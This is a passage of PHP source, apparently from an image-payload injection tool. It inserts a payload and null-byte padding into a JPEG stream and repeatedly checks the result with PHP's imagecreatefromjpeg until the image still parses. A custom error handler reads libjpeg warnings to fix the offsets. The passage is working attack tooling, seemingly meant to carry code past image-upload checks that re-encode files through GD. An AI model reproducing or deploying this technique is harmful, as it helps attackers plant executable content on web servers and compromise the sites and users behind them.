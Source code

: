```php
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
```